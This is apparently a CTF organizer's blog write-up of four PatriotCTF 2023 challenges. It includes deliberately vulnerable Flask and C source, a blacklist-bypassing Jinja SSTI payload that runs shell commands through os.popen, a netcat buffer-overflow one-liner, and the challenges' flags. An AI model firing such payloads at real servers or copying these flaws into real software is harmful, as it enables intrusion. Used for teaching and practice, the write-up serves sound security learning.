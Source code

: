 ```yaml
---
layout: post
title: PatriotCTF 2023 - Writeup
excerpt: "A  writeup for all the challenges I created for PatriotCTF 2023"
categories: [Guides, Learn]
tags: [web, misc, pwn]
---
```

<p align="center">
  <img src="https://competitivecyber.club/assets/patriotctf/img/patriotctf2021-banner-semitransparent.png" alt="PCTF Logo">
</p>

# PatriotCTF 2023
This year, we (Competitive Cyber at Mason) hosted PatriotCTF 2023. This was a CTF that was designed to be a bit more beginner friendly, but still have some challenges that would be fun for more experienced players. I created 4 challenges for this CTF, and I will be writing up the solutions for them here.

## Challenges

### [Web] - Pick Your Starter
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a decently simple SSTI challenge with a blacklist, here is the source code for the `app.py` file:
```python
from flask import Flask, render_template, render_template_string

app = Flask(__name__)
app.static_folder = 'static'

starter_pokemon = {
    "charmander" : {
        "name": "Charmander",
        "type": "Fire",
        "abilities": ["Blaze", "Solar Power"],
        "height": "0.6m",
        "weight": "8.5 kg",
        "description": "Charmander is a Fire-type Pokémon known for its burning tail flame.",
        "picture": "https://assets.pokemon.com/assets/cms2/img/pokedex/full/004.png"
    },
    "bulbasaur" : {
        "name": "Bulbasaur",
        "type": "Grass/Poison",
        "abilities": ["Overgrow", "Chlorophyll"],
        "height": "0.7m",
        "weight": "6.9 kg",
        "description": "Bulbasaur is a dual-type Grass/Poison Pokémon known for the plant bulb on its back.",
        "picture": "https://archives.bulbagarden.net/media/upload/f/fb/0001Bulbasaur.png"
    },
    "squirtle" : {
        "name": "Squirtle",
        "type": "Water",
        "abilities": ["Torrent", "Rain Dish"],
        "height": "0.5m",
        "weight": "9.0 kg",
        "description": "Squirtle is a Water-type Pokémon known for its water cannons on its back.",
        "picture": "https://static.pokemonpets.com/images/monsters-images-800-800/7-Squirtle.webp"
    },
}

def blacklist(string):
    block = ["config", "update", "builtins", "\"", "'", "`", "|", " ", "[", "]", "+", "-"]
    
    for item in block:
        if item in string:
            return True
    return False


@app.route('/')
def index():
    render = render_template('index.html')
    return render_template_string(render)


@app.route('/<pokemon>')
def detail(pokemon):
    pokemon = pokemon.lower()
    try:
        render = render_template('pokemon_name.html', data=starter_pokemon[pokemon])
        return render_template_string(render)
    except:
        if blacklist(pokemon):
            return render_template('error.html')
            
        render = render_template('404.html', pokemon=pokemon)
        return render_template_string(render)

if __name__ == '__main__':
    app.run(debug=True)
```
You can see that there is a blacklist function that will block any input that contains any of the characters in the `block` list. However, if you look at the blacklist function, you can see that it does not block the `.` character. We can use this to our advantage to get RCE.

To do this, we can use the following payload: `http://chal.pctf.competitivecyber.club:5555/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=cat%20../flag.txt`. This will allow us to execute the `cat /flag.txt` command on the server. We can then use this to read the flag file: `PCTF(wHOS7H47PoKEmoN)`.
![](https://i.imgur.com/D0TW1fJ.png)

### [pwn] - guessinggame
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a pretty simple pwn challenge, you are given a binary that asks you to guess the favorite animal of the creator. If you guess correctly, you oddly still don't get the flag. Here's why:

Looking at the original source for the binary:
```c
#include <stdio.h>
#include <string.h>

void outputFlag() {
    char flag[35];
    FILE* pctfFlag = fopen("flag.txt", "r");

    if (pctfFlag == NULL) {
        printf("Unable to find flag.txt :(");
    } else {
        fgets(flag, 35, pctfFlag);
        printf("%s", flag);
    }
    fclose(pctfFlag);
}

int check(){
    char input[300];
    char favAnimal[8] = "Giraffe";
    int priv = 0;
    
    printf("Input guess: ");
    gets(input);

    if(strcmp(input, favAnimal)) {
        printf("ERRR! Wrong!\n");
    }
    else {
        printf("That's not my favorite animal... I promise!\n");
    }
    if(priv) {
        printf("I wasn't able to trick you...\n");
        outputFlag();
    }
}

int main(){
    printf("Hello there, friend! Can you guess my favorite animal?\n");
    check();
    return 0;
}
```
We can see that the check function is where the comparison is made, and if we guess correctly, we get the message `That's not my favorite animal... I promise!`. However, if we look at the check function, we can see that there is a variable called `priv` that is set to 0. If we can somehow set this to 1, we will get the flag.

To do this, we can use a buffer overflow. If we input a string that is longer than 300 characters, we will overflow the buffer and overwrite the value of `priv`. We can use python to do this for us:
```python
python3 -c "print('pctf'*76)" | nc chal.pctf.competitivecyber.club 9999
```
![](https://i.imgur.com/3bSFFYQ.png)
### [rev] - Wing_it
#### Description
> I'm just gonna wing it
Unfortunately, due to some technical issues we had to take this challenge down at the beginning of the CTF and were not able to get it back up in time. I will be releasing the challenge and solution here.

#### Solution
You are provided a binary that you must reverse called wing_it. 

You were asked to answer four trivia questions, the last of which did not fully give you the question needing you to reverse the binary in order to get it. 

The correct solution for each question is as follows:
1. the Concorde!
2. duh it's the Vin Fiz Flyer
3. AMeriCan aiRLiNEs
4. 100298


### [misc] - Uh Oh!
#### Description
> Uh Oh! While trying to add passwords to my wordlist, I accidentally added my own phone number! Can you tell me what line it's on?
> https://en.wikipedia.org/wiki/North_American_Numbering_Plan#Modern_plan
> Format: PCTF{linenumber_phonenumonlynumbers}


#### Solution
This was a pretty simple regex challenge, if you take a look at the wikipedia link provided, you can see that we are spefically looking for a number in the format `(NPA) NXX-XXXX`. 
![](https://i.imgur.com/vXBS24j.png)
If you adjust your regex accordingly, and run it against the provided wordlist, you will get the flag `PCTF{7731484_4043037283}`. 

I used the regex: `^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$`
![](https://i.imgur.com/IOH7kXp.png)

Final command: `grep -E "^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$" -n rockyou.txt`

## Conclusion
This was a really fun CTF to create, and I hope you enjoyed playing it! If you have any questions, feel free to reach out to me on any of my socials.

